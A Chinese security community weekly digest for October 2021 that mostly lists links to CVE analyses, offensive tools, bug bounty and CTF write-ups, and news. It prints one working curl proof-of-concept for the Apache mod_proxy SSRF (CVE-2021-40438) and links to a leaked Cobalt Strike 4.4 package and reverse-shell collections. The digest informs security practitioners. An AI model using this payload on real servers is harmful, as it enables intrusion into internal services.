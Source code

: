 # 棱角社区网络攻防周报 #2

棱角社区网络攻防周报 是由棱角社区(Edge Forum) 策划的每周社区安全攻防动态报告。每周将从社区&外网统计发布的安全动态进行一周的总结归档，希望大家能够从中获取到最新的技术、工具、漏洞和研究方向。棱角社区网络攻防周报第一期由 R1nG 进行策划发布。

本期覆盖内容：2021年10月15日——2021年10月21日

**本周社区活跃情况：**

```bash
r1ng 发帖 52 篇
chk141 发帖 2 篇
bugkidz 发帖 1 篇
r0exper 发帖 1 篇
K@1! 发帖 1 篇
lcvv_ 发帖 1 篇
khoo 发帖 1 篇
cances 发帖 1 篇
```

## 本周社区动态

非技术类文章将不统计在列，本期棱角社区共发布主题 19 条,攻防日报推送 31 条；新增棱角社区贡献榜页面，对社区突出贡献的人将登记在列，详情可以见：[棱角团队贡献榜](https://forum.ywhack.com/contributors.php)；新增主题被顶次数显示；对周报发布样式进行调整。

* [# 溢出代码] [品茗运营管理平台Shiro反序列化](https://forum.ywhack.com/thread-116600-1-1.html) - @khoo
* [# 溢出代码] [Apache mod_proxy 中的 SSRF（CVE-2021-40438）](https://forum.ywhack.com/thread-116608-1-1.html) - @R1nG
* [# 溢出代码] [Microsoft Win32k 特权提升漏洞（CVE-2021-40449）](https://forum.ywhack.com/thread-116609-1-1.html) - @R1nG
* [# 溢出代码] [中兴通讯 MF971R 多个安全漏洞（CVE-2021-21743～49）](https://forum.ywhack.com/thread-116619-1-1.html) - @R1nG
* [# 溢出代码] [Galera WebTemplate 路径遍历漏洞（CVE-2021-40960）](https://forum.ywhack.com/thread-116632-1-1.html) - @R1nG
* [# 溢出代码] [Oracle VirtualBox 拒绝服务漏洞（CVE-2021-35540）](https://forum.ywhack.com/thread-116633-1-1.html) - @R1nG
* [# 溢出代码] [WinRAR 5.70 试用版中的代码执行漏洞（CVE-2021-35052）](https://forum.ywhack.com/thread-116636-1-1.html) - @R1nG
* [# 安全工具] [Cobalt Strike 4.4 原版+toolkit泄漏分享](https://forum.ywhack.com/thread-116601-1-1.html) - @cances
* [# 安全工具] [Ddosify: 用 Golang 编写的高性能负载测试工具](https://forum.ywhack.com/thread-116602-1-1.html) - @R1nG
* [# 安全工具] [一些针对 密码攻击 的工具分享](https://forum.ywhack.com/thread-116610-1-1.html) - @R1nG
* [# 安全工具] [暗网 OSINT 工具，针对暗网的一些情报工具](https://forum.ywhack.com/thread-116611-1-1.html) - @R1nG
* [# 安全工具] [YYScan:Golang编写的模块化工具](https://forum.ywhack.com/thread-116623-1-1.html) - @R1nG
* [# 综合交流] [反弹 shell 的一些命令](https://forum.ywhack.com/thread-116603-1-1.html) - @R1nG
* [# 综合交流] [Linux 中存储密码的一些文件](https://forum.ywhack.com/thread-116622-1-1.html) - @R1nG
* [# 综合交流] [疑似中国人民银行内部和外部源代码泄漏](https://forum.ywhack.com/thread-116624-1-1.html) - @R1nG
* [# 安全工具] [ZipExec:从受密码保护的 zip 中执行二进制文件的独特技术](https://forum.ywhack.com/thread-116642-1-1.html) - @R1nG
* [# 综合交流] [WADComs 备忘录：针对 Windows/AD 环境的工具及其各自命令](https://forum.ywhack.com/thread-116643-1-1.html) - @R1nG

## 本周文章

* [关于BGP安全那些事儿](https://mp.weixin.qq.com/s/rZunI6Uxyks2TbSarsqR8A)
* [如何伪装进程信息](https://mp.weixin.qq.com/s/hsMzfrWNKvGid39Qdn1-tQ)
* [关于 HTTP 请求走私的论文](https://github.com/mattiasgrenfeldt/bachelors-thesis-http-request-smuggling)
* [如何在MSF中高效的使用云函数](https://mp.weixin.qq.com/s/jAxp-LVb8ac7QphFyTGNOg)
* [鉴别流量攻击与防御姿势构建](https://mp.weixin.qq.com/s/Ac7o434Wa3Y2tmZ3JzDDaQ)
* [创建一个基于的 Python 反向 Shell 监听器](https://tpetersonkth.github.io/2021/10/16/Creating-a-Basic-Python-Reverse-Shell-Listener.html)
* [利用 FodHelper.exe 访问注册表的操作实现 UAC Bypass](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses)

## 本周漏洞

* Apache HTTP Server SSRF（CVE-2021-40438）[构造PoC](https://firzen.de/building-a-poc-for-cve-2021-40438) ， [单行概念验证PoC](https://twitter.com/_mattata/status/1449020783989297167) 以及 [Nuclei 模板](https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-40438.yaml)

```bash
$ curl "http://localhost/?unix:$(python3 -c 'print("A"*7701, end="")')|http://backend_server1:8085/"
> <html>ssrf test</html>
```

* [ChaMd5获得华硕致谢｜路由器栈溢出漏洞分析](https://mp.weixin.qq.com/s/VdSq4vexWmwWhaNgr0DURg)
* [针对 CVE-2021-40449 的 PoC (DoS) - Win32k 特权提升漏洞 (LPE) ](https://github.com/ly4k/CallbackHell)
* [Apache mod_proxy SSRF（CVE-2021-40438）的一点分析和延伸](https://mp.weixin.qq.com/s/sbFs7kZ8tExwZPeUvq1hJw)
* [Impress-CMS-1.4.2-自动任务处rce](https://www.anquanke.com/post/id/254633)
* [Black Hat USA2021 上 CVE-2020-6537 的分析](https://paper.seebug.org/1745/)
* [WinRAR 被发现了一个中间人劫持漏洞，成功利用可以实现 RCE。（CVE-2021-35052）](https://swarm.ptsecurity.com/winrars-vulnerable-trialware-when-free-software-isnt-free/)
* [ORACLE全系产品10月重要补丁更新通告](http://blog.nsfocus.net/oracle202110/)
* [Chrome in-the-wild bug analysis: CVE-2021-37975](https://securitylab.github.com/research/in_the_wild_chrome_cve_2021_37975/)
* [【漏洞分析】Oracle MySQL JDBC XXE漏洞（CVE-2021-2471）](https://mp.weixin.qq.com/s/erIFMiPNB2XSBJSqXyxuKg)
* 安全研究员发现了[一种可用于将 coredump 文件写入任意目录（包括root权限目录）的技术](https://www.openwall.com/lists/oss-security/2021/10/20/2)。可以利用这些文件通过 logrotate 执行任意代码


## 本周工具

* [BugRepoter_0x727 (自动化编写报告平台)](https://github.com/0x727/BugRepoter_0x727)
* [Finger](https://github.com/aliyunav/Finger)：IDA 插件，用于在指定的二进制文件中识别未命名的库函数
* [CS 4.4 + Artifact + MImikatz + Extras](https://rfmirror.com/Thread-CS-4-4-Artifact-MImikatz-Extras)
* [密码审计 L0phtCrack 工具现已开源](https://l0phtcrack.gitlab.io/)
* [LDAPmonitor](https://github.com/p0dalirius/LDAPmonitor)：实时监控 LDAP 对象的创建、删除和更改
* [RIO](https://github.com/TheKalin/rio) & [使用教程](https://blog.yeswehack.com/yeswerhackers/pimpmyburp/pimpmyburp-6-generate-reports-directly-burp-suite/)：一个方便的BurpSuite插件，用于直接从 BurpSuite 中生成报告
* [gh-dork](https://github.com/molly/gh-dork) : Github dorking 工具
* [XNTSV](https://github.com/horsicq/xntsv)：用于详细查看 Windows 的系统结构的程序
* [ZipExec](https://github.com/Tylous/ZipExec)：从受密码保护的 zip 中执行二进制文件的工具

## 赏金文章

* [我如何通过入侵 iCloud 获得 9000 美元](https://bountyget.medium.com/how-i-got-9000-usd-by-hacking-into-icloud-80ed8816d3b5)
* [查看 Markdown 文件时将 XSS 存储在 Mermaid 中](https://hackerone.com/reports/1212822)（GitLab，3,000 美元）
* [WRITE UP – GOOGLE VRP N/A：通过 A 标签和 GOOGLE EARTH PRO 桌面应用程序中的空字节 (%00) 读取任意本地文件 (MACOS)](https://omespino.com/write-up-google-vrp-n-a-arbitrary-local-file-read-macos-via-a-tag-and-null-byte-in-google-earth-pro-desktop-app/)
* [我如何将基于时间的 SQL 注入升级到 RCE](https://jmrcsnchz.medium.com/how-i-escalated-a-time-based-sql-injection-to-rce-bbf0d68cb398)
* [在移动应用程序上利用请求伪造](https://dphoeniixx.medium.com/exploiting-request-forgery-on-mobile-applications-e1d196d187b3)
* [MySQL 中的科学记数法错误使 AWS WAF 客户端易受 SQL 注入攻击](https://www.gosecure.net/blog/2021/10/19/a-scientific-notation-bug-in-mysql-left-aws-waf-clients-vulnerable-to-sql-injection/)
* [Node 16.3.0 http模块请求走私漏洞](https://hackerone.com/reports/1238709)（Node.js，250 美元）

## 活动

* [完美落幕 EISS-2021企业信息安全峰会之深圳站10月15日成功举办](https://www.4hou.com/posts/EWqY)

**即将开始的活动：**

* [GeekPwn 2021国际安全极客大赛（10月24日）](http://www.geekpwn.org/zh/index.html)
* [XCTF高校网络安全专题挑战赛（10月29日）](https://www.xctf.org.cn)
* [KCon 黑客大会 · 2021 - 纵横（10月30日）](http://kcon.knownsec.com/2021/#/)
* [Visma 安全会议（11月11日 欧洲中部时间 11:00）](https://visma-seccon.github.io/)
* [Pen Test HackFest（11月15日）](https://www.sans.org/cyber-security-training-events/pen-test-hackfest-2021-live-online/)
* [2021 ATEC科技精英赛启动“攻防”选手招募](https://mp.weixin.qq.com/s/x-cjiS4PD7Io44rfa9h4MQ) 2021年11月25日-11月28日
* [CIS 2021网络安全创新大会](https://cis.freebuf.com/) 2021年12月1日 9:00 ～ 2021年12月2日 18:00

## 新闻

* [Windows 10、iOS 15、Ubuntu、Chrome 在天府杯中落败](https://therecord.media/windows-10-ios-15-ubuntu-chrome-fall-at-chinas-tianfu-hacking-contest/)
* [宏碁一周内遭遇第二次数据泄露](https://securityaffairs.co/wordpress/123616/data-breach/acer-suffers-second-data-breach.html)
* [Twitter 暂停涉嫌窃取 4500 万阿根廷人数据的黑客](https://www.zdnet.com/article/twitter-suspends-hacker-who-stole-data-of-46-million-argentinians/)
* [黑客窃取了阿根廷全体人口的政府 ID 数据库](https://therecord.media/hacker-steals-government-id-database-for-argentinas-entire-population/)
* [美国商务部工业和安全局 (BIS) 将禁止向中国和俄罗斯出口黑客工具](https://www.bleepingcomputer.com/news/security/us-govt-to-ban-export-of-hacking-tools-to-authoritarian-regimes/)
* [2022 年需要关注的 5 大攻击媒介](https://securityaffairs.co/wordpress/123636/security/top-5-attack-vectors-2022.html)

## 视频

* [Pokemon CTF challenge](https://www.youtube.com/watch?v=VlK3GhlJ6BE)
* [2,500 美元 私人 Hackerone 报告的泄漏部分 - 永恒的跨站点泄漏](https://www.youtube.com/watch?v=4CNEgTDXI-U)
* [如何进行基本的安全代码审查 | 安全简化](https://www.youtube.com/watch?v=e52nVG7wR2Q)
* [CompTIA Security+ 课程](https://hackersacademy.com/courses/comptia-security-plus)
* [Android Exploits 101 Workshop](https://www.youtube.com/watch?v=squuwVQiPgg)
* [AWS 云安全实验室演练](https://www.youtube.com/watch?v=R_eEegiJZww)
* [自动从视频中提取人脸 - Tsurugi Linux - video2faces](https://www.youtube.com/watch?v=0Okmu2PTkUA)

## 资源

* [Shellcode注入技术学习资料集合](https://github.com/plackyhacker/Shellcode-Injection-Techniques)
* [移动应用渗透测试备忘单](https://github.com/tanprathan/MobileApp-Pentest-Cheatsheet)
* [WADComs](https://wadcoms.github.io/)：WADComs 备忘录，其中包含针对 Windows/AD 环境使用的攻击性安全工具及其各自命令的精选列表。
* [OWASP API 前十名指南](https://blog.shiftleft.io/a-guide-to-the-owasp-api-top-ten-3f86e49ec3dc)

## CTF 文章

* [PBCTF 2021 – Goahead Webserver 中的 RCE 0-Day](https://ahmed-belkahla.me/post/2-methods-rce-0-day-in-goahead-webserver-pbctf-2021/)
* [ByteCTF2021 chatroom writeup](https://o0xmuhe.github.io/2021/10/17/ByteCTF2021-chatroom-writeup/)
* [0CTF/TCTF 2021 Finals 0VM](https://www.anquanke.com/post/id/254814)
* [2021 ByteCTF 初赛部分题目官方Writeup](https://bytectf.feishu.cn/docs/doccnq7Z5hqRBMvrmpRQMAGEK4e)
* [鹤城杯 Writeup](https://www.anquanke.com/post/id/255220)

## 非技术类

* [网络不是法外之地，请谨言慎行](https://whgge.cn/a/jingyan/35.html)
* [比特币时隔半年再创历史新高,涨破66000美元/枚](https://tech.ifeng.com/c/8AVpYxLEKGb)